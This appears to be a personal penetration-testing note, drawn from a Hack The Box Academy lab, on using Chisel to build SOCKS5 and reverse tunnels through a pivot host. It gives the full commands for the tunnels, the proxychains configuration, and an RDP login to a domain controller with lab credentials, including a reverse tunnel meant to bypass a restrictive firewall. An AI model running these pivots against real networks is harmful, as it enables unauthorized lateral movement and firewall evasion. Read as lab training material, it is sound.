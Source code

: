 SOCKS5 Tunneling with Chisel
############################

Description
***********

Chisel is a TCP/UDP tunneling tool written in Go.  It uses HTTP to transport data that is secured with SSH

Installation
************

.. code-block:: console

    git clone https://github.com/jpillora/chisel.git
    cd chisel
    go build
    go install


Usage
*****


Case 1
======

Creating a tunnel to a pivot host


**Step 1** Copy the binary to the pivot host and start the server with
 
 .. code-block:: console

    ./chisel server -v -p 1234 --socks5


**Step 2** On the attack machine start the client to create the tunnel

.. code-block:: console

     ./chisel client -v 10.129.202.64:1234 socks

**Step 3** Edit your /etc/proxychains.conf file to reflect this setting at the bottom

.. code-block:: console

    [ProxyList]
    # add proxy here ...
    # meanwile
    # defaults set to "tor"
    # socks4 	127.0.0.1 9050
    socks5 127.0.0.1 1080

The chisel client is listening on 1080

**Step 4** Pivot to the DC with proxychains

.. code-block:: console

    proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

Case 2 
=======

Creating a reverse tunnel to bypass a restrictive firewall

**Step 1:** start the chisel server on the attack host

.. code-block:: console

    sudo ./chisel server --reverse -v -p 1234 --socks5

The using the pivot server start the client to connect

.. code-block:: console

    ./chisel client -v 10.10.14.17:1234 R:socks

As long as your /etc/proxychains.conf file has :

.. code-block:: console

    [ProxyList]
    # add proxy here ...
    # socks4    127.0.0.1 9050
    socks5 127.0.0.1 1080 

you can attempt a connection with:

.. code-block:: console

    proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

References
**********
https://academy.hackthebox.com/module/158/section/1437